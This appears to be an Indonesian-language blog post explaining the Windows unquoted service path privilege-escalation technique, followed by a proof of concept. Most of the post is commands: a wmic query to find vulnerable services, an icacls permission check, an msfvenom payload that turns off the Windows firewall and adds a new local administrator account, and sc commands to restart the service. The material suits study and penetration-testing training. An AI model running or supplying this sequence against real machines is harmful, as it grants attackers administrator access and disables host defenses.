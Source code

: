 ```yaml
---
layout: post
title: "Unquoted Service Path"
date: 2024-01-12 07:00:00 +0700
categories: "Windows-Local-Privilege-Escalation"
---
```


Ketika terdapat Service yang menjalankan `C:\Program Files\Internal Application\Project One\MyApp.exe` tanpa menggunakan Quote (") maka ini akan menjadi masalah karena pada dasarnya ketika memulai Service akan menjalankannya seperti ini.
1. `C:\Program.exe` => Not Found
2. `C:\Program Files\Internal.exe` => Not Found
3. `C:\Program Files\Internal Application\Project.exe` => Not Found
4. `C:\Program Files\Internal Application\Project One\MyApp.exe` => Found

Bayangkan ketika Attacker menginjeksi malicious file dan diberi nama `Project.exe` di dalam `C:\Program Files\Internal Application\` maka ketika start, Service akan otomatis menjalankannya, seperti di bawah ini.
1. `C:\Program.exe` => Not Found
2. `C:\Program Files\Internal.exe` => Not Found
3. `C:\Program Files\Internal Application\Project.exe` => Found (Injected by Attacker)

# Proof of Concept

#### Find Unquoted Service Path
```
wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v """
```

#### Check Who Can Write the Directory
```
icacls "C:\Program Files\<something>"
```

#### Craft Malicious (.exe)
```
msfvenom -p windows/exec CMD="cmd.exe /c NetSh Advfirewall set allprofiles state off && net user <username> password123 /ADD && net localgroup Administrators <username> /ADD" -f c --platform windows -b "\x00,\x0a"
```

#### Restart Service
```
sc stop "<service name>"
sc start "<service name>"
```

#### Check the Service
```
sc qc "<service name>"
```
